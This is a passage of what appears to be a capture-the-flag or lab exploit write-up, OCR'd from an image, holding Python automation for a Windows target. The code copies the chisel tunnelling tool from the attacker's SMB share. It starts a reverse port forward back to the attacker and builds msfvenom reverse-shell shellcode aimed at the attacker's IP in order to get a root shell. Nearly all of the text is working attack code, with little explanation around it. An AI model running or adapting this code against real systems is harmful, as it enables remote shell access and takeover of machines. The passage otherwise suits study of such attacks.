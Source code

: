    ```python
       # TODO: Necessary?
       # Check if port 8888 is free to use
       if port_in_use(8888):
           raise Exception("Something is running on port 8888! Please close the application on that port, as it is needed to get a shell as root.")
   
       
       # Copy chisel to server
       log.info("Uploading chisel...")
       shell.sendline("mkdir C:\\temp")
       shell.sendline(f"copy \\\\{get_ip()}\\share\\chisel_windows.exe C:\\temp\\")
       shell.recvlines()
           
       # Wait until copying is done #TODO: Verify that chisel was copied successfully
       shell.recv(timeout=60)
   
       # Forward port 8888 to us
       log.info("Forwarding port back...")
       shell.sendline(f'Start-Process -NoNewWindow C:\\temp\\chisel_windows.exe -ArgumentList ("client {get_ip()}:8000 R:8888:127.0.0.1:8888")')
   
       # Wait to complete port-forward
       while not port_in_use(8888):
           sleep(.5)
       
       # Kill smb-server
       smb.terminate()
   ```

   Using the `setup_tunnel` function, we are going to copy and run the chisel server and client.

2. Generate the shellcode

   ```python
   # Generate shellcode for reverse-shell
   def gen_shellcode(port):
       log.info("Generating shellcode...")
       output = popen(f"msfvenom -p windows/shell_reverse_tcp LHOST={get_ip()} LPORT={port} -f c").read()
       # Parse output
       output = output.split("\n")
       # Remove empty values
       output.remove("")
       # Remove ';' from output
       output[len(output) - 1 ] = output[len(output) - 1 ][:-1]
       # Remove first junk
       output = output[1:]
       # Remove quotes and parse to one string
       output = "".join(x.replace('\"',"") for x in output)
       # Parse string to bytes
       return literal_eval("b'''%s'''" % output)
   ```
